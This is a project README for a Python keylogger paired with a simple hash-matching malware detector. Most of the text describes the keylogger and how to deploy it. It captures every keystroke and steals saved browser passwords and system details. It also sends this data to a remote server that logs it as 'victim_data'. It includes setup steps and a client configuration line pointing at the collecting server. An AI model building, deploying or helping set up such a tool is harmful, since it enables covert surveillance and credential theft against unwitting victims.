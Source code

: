# Keylogger Project And Simple Malware Detector

This project implements a simple keylogger that captures keystrokes from a client machine and sends them to a server for logging purposes. It also includes features to gather browser data and system information.

## Features

- **Keylogging:** Captures all keystrokes made on the client machine.
- **Network Communication:** Sends captured keystrokes over the network to a remote server.
- **Logging:** Logs keystrokes into a text file on the server.
- **Browser Data Theft:** Gathers saved passwords from browsers like Chrome, Edge, and Firefox.
- **System Information Gathering:** Collects host name, IP addresses, OS details, processor info, disk usage, and memory statistics.

### Malware Detector

The malware detector script analyzes files extracted from a specified archive. It calculates cryptographic hashes of files using various hashing algorithms (MD5, SHA-1, SHA-224, SHA-256, SHA3-384, SHA3-512) and compares them against a list of known malicious hashes. If a match is found, it identifies the file as potentially malicious.

## Requirements

- Python 3.x
- `pynput` library (for capturing keystrokes)
- `socket` library (for network communication)
- `os` module (for operating system related functions)
- `sqlite3` module (for accessing SQLite databases)
- `requests` library (for making HTTP requests)
- `json` module (for JSON data handling)
- `psutil` library (for system and process utilities)
- `platform` module (for retrieving system information)
- `pathlib` module (for handling file paths and directories)
- `shutil` module (for unpacking archives)
- `rarfile` library (optional, for handling RAR archives)
- `hashlib` module (for calculating file hashes using various algorithms)

## Installation and Setup

1. **Clone the repository:**

    ```bash
    git clone https://github.com/Oxshady/Keylogger--_-.git
    cd keylogger
    ```

2. **Install dependencies:**

    ```bash
    pip install pynput
    ```

    Ensure all required modules (`pathlib`, `shutil`, `rarfile` if used, `hashlib`) are available in your Python environment.

## Usage

### Setting up the Server

1. **Run the server script:**

    ```bash
    python server.py
    ```

    This script starts the server, listens for incoming connections, and logs keystrokes received from clients into a file (`./victim_data.txt`).

### Running the Keylogger Client

1. **Configure the Keylogger Client:**

    Modify `client.py` with the IP address and port of your server:

    ```python
    ke = Keylogger("server_ip", 9999)  # Replace with your server's IP and port
    ```

2. **Run the keylogger client script:**

    ```bash
    python client.py
    ```

    This script connects to the specified server and starts capturing keystrokes. It also gathers browser data and system information, sending all collected data to the server for logging.

## Troubleshooting

- **Connection Issues:** Ensure the server and client are running on the same network or have proper network access.
- **File Permissions:** Ensure the server has write permissions for the `./victim_data.txt` file in the project directory.

## Acknowledgments

- Thanks to the developers of `pynput`, `socket`, `sqlite3`, `requests`, `psutil`, `platform`, `pathlib`, `shutil`, `rarfile`, and `hashlib` libraries/modules for their contributions.

---

Ensure to adjust the IP address, port number, and paths in the scripts (`client.py` and `server.py`) according to your setup. This README provides a comprehensive overview of your keylogger project, including how it captures browser data, system information, and its integration with the malware detector functionality.

